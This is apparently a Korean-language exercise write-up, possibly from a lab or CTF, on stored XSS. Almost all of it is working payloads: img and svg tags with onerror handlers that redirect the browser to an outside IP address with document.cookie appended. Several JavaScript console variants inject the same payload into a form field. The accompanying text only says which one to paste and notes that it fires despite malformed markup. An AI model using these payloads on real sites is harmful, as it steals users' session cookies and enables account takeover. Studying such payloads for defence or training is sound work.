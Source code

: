 나타난 `<input>`입력창에 입력하면 됨

|

```html
<img src="<img src=" 1"="" onerror="location.href=&quot;http://20.41.120.97:10010/&quot;+document.cookie">
```

작성된 글의 소스코드를 보면 `src`가 이상하게 입력됐지만, 의도했던 `onerror`트리거는 정상적으로 동작함ㄷㄷ


|

```html
<svg src="" onerror=location.href="http://20.41.120.97:10010/"+document.cookie>
```

다른 태그여도 src속성과 트리거만 존재하면 가능

|

|

### 방법 2

---

```js
<input type="text" id="image" name="image" value="">
```

```js
document.getElementById('image').value = '<img src="123" onerror=location.href="http://20.41.120.97:10010/"+document.cookie>'

document.getElementById('image').value = `<img src="123" onerror=location.href="http://20.41.120.97:10010/"+document.cookie>`

document.getElementById('image').value = `<img src="123" onerror=location.href='http://20.41.120.97:10010/'+document.cookie>`

document.getElementById('image').value = `<img src="123" onerror="location.href='http://20.41.120.97:10010/'+document.cookie">`

document.getElementById('image').value = '<img src="123" onerror="location.href=\'http://20.41.120.97:10010/\'+document.cookie">'

document.getElementById('image').value = `"" onerror=location.href="http://20.41.120.97:10010/"+document.cookie>`
```

하나 골라서 console창에 입력

javascript를 사용해 `<input>`태그의 `value`속성의 값을 설정

